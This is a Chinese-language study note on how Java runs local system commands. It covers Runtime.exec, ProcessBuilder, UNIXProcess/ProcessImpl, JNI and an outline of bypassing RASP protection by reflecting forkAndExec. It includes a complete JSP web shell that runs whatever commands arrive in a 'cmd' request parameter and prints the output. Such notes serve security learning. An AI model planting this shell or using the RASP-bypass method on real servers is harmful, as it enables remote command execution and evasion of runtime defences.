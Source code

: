 ### Runtime

java.lang.Runtime的exec方法可执行本地系统命令

调用链

```
java.lang.UNIXProcess.<init>(UNIXProcess.java:247)
java.lang.ProcessImpl.start(ProcessImpl.java:134)
java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
java.lang.Runtime.exec(Runtime.java:620)
java.lang.Runtime.exec(Runtime.java:450)
java.lang.Runtime.exec(Runtime.java:347)
org.apache.jsp.runtime_002dexec2_jsp._jspService(runtime_002dexec2_jsp.java:118)
```

`Runtime`和`ProcessBuilder`并不是程序的最终执行点

### ProcessBuilder

`Runtime`命令执行的时候其最终`exec`方法会调用`ProcessBuilder`来执行本地命令

```jsp
<%--
  Created by IntelliJ IDEA.
  User: yz
  Date: 2019/12/6
  Time: 10:26 上午
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
    InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;

    while ((a = in.read(b)) != -1) {
        baos.write(b, 0, a);
    }

    out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
%>
```

![image-20240303165522466](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240303165522466.png)

### UNIXProcess/ProcessImpl

`UNIXProcess`和`ProcessImpl`其实就是最终调用`native`执行系统命令的类，这个类提供了一个叫`forkAndExec`的native方法，如方法名所述主要是通过`fork&exec`来执行本地系统命令。

### 绕过RASP命令执行

主要学习思路

1. 使用`sun.misc.Unsafe.allocateInstance(Class)`特性可以无需`new`或者`newInstance`创建`UNIXProcess/ProcessImpl`类对象。
2. 反射`UNIXProcess/ProcessImpl`类的`forkAndExec`方法。
3. 构造`forkAndExec`需要的参数并调用。
4. 反射`UNIXProcess/ProcessImpl`类的`initStreams`方法初始化输入输出结果流对象。
5. 反射`UNIXProcess/ProcessImpl`类的`getInputStream`方法获取本地命令执行结果(如果要输出流、异常流反射对应方法即可)。

### JNI

Java可以通过JNI的方式调用动态链接库，我们只需要在动态链接库中写一个本地命令执行的方法就行了

[javasec](https://www.javasec.org/javase)


